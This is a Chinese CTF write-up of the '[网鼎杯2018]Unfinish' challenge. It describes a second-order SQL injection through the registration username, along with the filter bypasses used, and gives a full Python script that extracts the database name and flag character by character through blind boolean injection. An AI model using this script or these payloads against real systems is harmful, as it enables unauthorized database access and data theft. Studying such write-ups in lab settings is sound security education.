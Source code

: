 # [网鼎杯2018]Unfinish

## 知识点

`SQL注入` 

`二次注入`

## 解题

![](./img/[网鼎杯2018]Unfinish-n.png)

首先进入发现一个登录框，爆破了一下弱口令失败，扫描目录发现`register.php`,注册登录后发现`显示用户名`，猜测是用户名`sql注入`，`fuzz`看看过滤了哪些

![](./img/[网鼎杯2018]Unfinish-1.png)

发现`,`、`'`、`information_schema`被过滤了，失败返回`200`，正常返回`302`

`sql`中相加是会先转化成数字（和`php`类似，弱类型）再进行相加。我们构造类似`'0'+'x'+'0'` 而其中的`x`就是我们的判断语句。如果`x`成立就会在`index.php`中回显用户名 `1` 否则为`0` 。

为了更好的定位到数字，构造`'665'+'x'+'0'`

```python
import requests
import time
from urllib.parse import urljoin
import random


url = 'http://4ba6197a-f470-41b7-80ae-fe8473d1f80b.node5.buuoj.cn:81/'

register_url = urljoin(url, 'register.php')

login_url = urljoin(url, 'login.php')


payload = "665'+(ascii(substr((select database()) from {} for 1)) <{})+'0"
payload = "665'+(ascii(substr((select * from flag) from {} for 1)) <{})+'0"

def running(db_length):
    result = ''
    for i in range(1, db_length + 1):
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            email = f"{random.randint(20000, 9000000)}@qq.com"
            session = requests.session()
            register_data = {
                'email': email,
                'username': payload.format(i, mid),
                'password': '123'
            }
            print(f"low:{low}\t\thigh:{high}\t\t" + payload.format(i, mid))
            register_resp = session.post(url=url + 'register.php', data=register_data, timeout=8)
            if register_resp.status_code == 429:
                time.sleep(5)
            else:
                login_data = {
                    'email': email,
                    'password': '123'
                }
                login_resp = session.post(url=login_url, data=login_data)
                if login_resp.status_code == 429:
                    time.sleep(5)
                else:
                    if "666" in login_resp.text:
                        high = mid
                    else:
                        low = mid + 1
                    mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        result += chr(mid - 1)
        print(result)
    print(f"result is: {result}")
    return result


if __name__ == '__main__':
    result = running(100)
```

[参考代码](https://mayi077.gitee.io/2020/08/18/%E7%BD%91%E9%BC%8E%E6%9D%AF2018-Unfinish/)